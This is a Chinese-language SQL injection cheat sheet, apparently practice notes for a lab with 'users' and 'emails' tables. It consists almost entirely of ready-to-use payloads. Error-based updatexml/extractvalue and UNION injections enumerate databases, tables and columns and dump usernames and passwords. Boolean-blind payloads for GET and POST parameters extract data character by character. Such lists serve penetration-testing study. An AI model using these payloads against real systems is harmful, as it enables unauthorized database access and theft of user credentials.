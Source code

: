 ### 1. 数字型

#### (1).查看数据库名

```
1 and updatexml(1,concat(0x7e,database(),0x7e),1) --+
```

#### (2)查看表名

```
1 and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database()),0x7e),1) --+
```

#### (3).查看第一张表字段

```
1 and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users'),0x7e),1) --+
```

#### (4).查看字段内数据

```
1 and updatexml(1,concat(0x7e,(select group_concat(concat_ws('_',id,username,password))),0x7e),1) --+  		×

1 and extractvalue(1,concat(0x7e,(select group_concat(concat_ws('_',id,username,password))),0x7e)) --+   	   ×

-1 union (select 1,2,group_concat(concat_ws('_',id,username,password)) from users) --+			√ 

1 and (select 1 from(select count(*),concat((select group_concat(concat_ws('_',id,username,password))),floor(rand(0)*2)x from information_schema.tables group by x)y) --+		？
```

### 2. GET布尔盲注

#### (1)获取数据库长度

```
1' and length(database())>0 --+
```

#### (2)暴力破解数据库名

```
1' and ascii(substr(database(),n,1))=m --+	n为第几位，m为ascii范围
```

#### (3)获取第一张表名长度

```
1' and length((select table_name from information_schema.tables where table_schema=database() limit 3,1))=5 --+
```

#### (4)暴力破解第一张表名

```
1' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 3,1),n,1))=m --+	n为第几位，m为ascii范围
```

#### (5)获取第一张表第一个字段长度

```
1' and length((select column_name from information_schema.columns where table_schema=database()and table_name='users' limit 0,1))=2 --+
```

#### (6)暴力破解第一张表第一个字段名

```
1' and ascii(substr((select column_name from information_schema.columns where table_schema=database()and table_name='users' limit 0,1),1,1))=m --+
```

#### (7)暴力第一个字段内数据长度

```
1' and length((select id from users limit 0,1))=1 --+
```

#### (8)暴力破解第一个字段内数据内容

```
1' and ascii((select id from users limit 0,1)) = m --+
```

### 3. 字符型注入

```
-1' union select 1,database(),3  -- qwe
```

```
-1' union select 1,table_name,2 from information_schema.tables where table_schema = database()  -- qwe
```

```
-1' union select 1,2,column_name from information_schema.columns where table_schema=database() and table_name='emails' -- qwe
```

```
-1' union select 1,2,group_concat(id) from emails --+
```

### 4. POST布尔盲注

#### (1)获取第一张表名长度

```
1' or length((select table_name from information_schema.tables where table_schema=database() limit 0,1))=6 -- -
```

#### (2)暴力破解第一张表名

```
1' or ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1),n,1))=m -- -
```

#### (3)获取第一个字段名长度

```
1' or length((select column_name from information_schema.columns where table_schema=database()and table_name='users' limit 0,1))=m --+
```

#### (4)暴力破解第一个字段名

```
1' or ascii(substr((select column_name from information_schema.columns where table_schema=database()and table_name='users' limit 0,1),1,1))=m -- +
```

#### (5)获取第一个字段内数据长度

```
1' or length((select id from users limit 0,1))=1 -- +
```

#### (6)暴力破解第一个字段内数据内容

```
1' or ascii((select id from users limit 0,1)) = m -- +
```



